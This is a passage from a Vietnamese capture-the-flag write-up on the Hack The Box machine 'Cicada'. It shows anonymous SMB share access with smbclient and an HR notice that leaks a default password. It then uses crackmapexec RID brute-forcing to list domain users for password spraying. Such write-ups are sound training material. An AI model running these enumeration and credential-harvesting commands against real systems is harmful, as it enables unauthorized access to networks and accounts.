 ```
└─$ smbclient //10.10.11.35/HR
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \> LS
  .                                   D        0  Thu Mar 14 08:29:09 2024
  ..                                  D        0  Thu Mar 14 08:21:29 2024
  Notice from HR.txt                  A     1266  Wed Aug 28 13:31:48 2024

                4168447 blocks of size 4096. 325670 blocks available
```
Nội dung tóm lại là lấy được password: `Cicada$M6Corpb*@Lp#nZp!8`
```
smb: \> get "Notice from HR.txt"
getting file \Notice from HR.txt of size 1266 as Notice from HR.txt (0.6 KiloBytes/sec) (average 0.6 KiloBytes/sec)
smb: \> !ls
 cacida  'Notice from HR.txt'
smb: \> !cat 'Notice from HR.txt'

Dear new hire!

Welcome to Cicada Corp! We're thrilled to have you join our team. As part of our security protocols, it's essential that you change your default password to something unique and secure.

Your default password is: Cicada$M6Corpb*@Lp#nZp!8

To change your password:

1. Log in to your Cicada Corp account** using the provided username and the default password mentioned above.
2. Once logged in, navigate to your account settings or profile settings section.
3. Look for the option to change your password. This will be labeled as "Change Password".
4. Follow the prompts to create a new password**. Make sure your new password is strong, containing a mix of uppercase letters, lowercase letters, numbers, and special characters.
5. After changing your password, make sure to save your changes.

Remember, your password is a crucial aspect of keeping your account secure. Please do not share your password with anyone, and ensure you use a complex password.

If you encounter any issues or need assistance with changing your password, don't hesitate to reach out to our support team at support@cicada.htb.

Thank you for your attention to this matter, and once again, welcome to the Cicada Corp team!

Best regards,
Cicada Corp
```
Về phần khai brute-force username từ password có được mình sẽ để ở mục [User Flag](#User-flag)

# User flag
## crackmapexec
Sử dụng crackmapexec với option `--rid-brute`  tìm kiếm các RIDs của người dùng hoặc nhóm, từ đó có thể xác định được các tài khoản người dùng hiện có trong hệ thống.
```
┌──(kali㉿kali)-[~/Downloads/HTB_machines]
└─$ crackmapexec smb 10.10.11.35 -u anonymous -p '' --rid-brute > rid.txt

┌──(kali㉿kali)-[~/Downloads/HTB_machines]
└─$ cat rid.txt | grep SidTypeUser | awk '{print $6}' | awk -F\\ '{print $2}' > users-cicada.txt
```
Sử dụng wordlist này để brute-force account với password khi [Recon](#Recon) được 
